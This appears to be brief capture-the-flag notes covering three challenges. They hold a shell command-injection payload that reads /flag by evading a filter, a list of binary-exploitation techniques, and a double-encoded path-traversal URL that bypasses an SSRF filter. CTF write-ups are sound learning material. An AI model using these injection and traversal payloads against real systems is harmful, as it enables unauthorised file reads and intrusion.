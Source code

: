 # isc.taiwan-te.ch
## ls
```bash
$(echo > /tmp/$(tail /$(echo fl)$(echo ag)); echo /tmp)
```


## pwns
  - pwntools
  - bof
  - bof2
  - ret2sc
  - gothijack 找到got位置指向shellcode
  - rop
  - ret2plt

  ### notes  
  - see github source code 
  - 避免分散發出封包
  - `context.log_level ='debug'`


## jssrf
1. [see source code](http://140.118.126.237:8889/source)
2. 本網頁透過`3000`作為公開端口，並且透過該端口接收api，之後過濾輸入內容之後傳到內部端口`3333`。
3. 過濾器`限制長度`與`../`，前者透過path[]繞過，後者透過兩次編碼繞過
4. 得到flag的emoji，一樣兩次編碼繞過第二個過濾器得出結果
5. [get flag](http://140.118.126.237:8889/?path[]=.%252e/flag?tok%25%36%35n=SUP3R_S3CR3T_T0K3N)
